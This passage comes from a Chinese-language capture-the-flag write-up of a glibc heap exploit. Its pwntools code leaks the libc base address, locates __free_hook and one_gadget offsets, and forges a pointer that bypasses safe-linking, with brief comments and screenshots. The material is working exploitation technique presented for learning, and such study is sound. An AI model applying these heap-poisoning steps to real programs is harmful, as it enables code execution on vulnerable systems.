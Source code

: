 ```plain
edit(7,'\x11')
show(7)
libc_base=u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))-0x1e3c11
leak('libc_base ',libc_base)
free_hook=libc_base+libc.sym['__free_hook']
leak('free_hook',free_hook)
ogs=[0xdf54c,0xdf54f,0xdf552] 
og=libc_base+ogs[1]
leak('og',og)
```

这里找清楚，libc 基地址是下面那个

[![](assets/1701612290-65ed18d9dc1fafe5edbe64b2f228013f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230714145623-8b5e92b8-2213-1.png)

```plain
pl=(heap_addr>>12)^(free_hook)
edit(6,p64(pl))
```

利用原理绕过 safe-linking

[![](assets/1701612290-d52a1271bd1cc67daebb4f599ffd779f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230714145641-95f37b3a-2213-1.png)
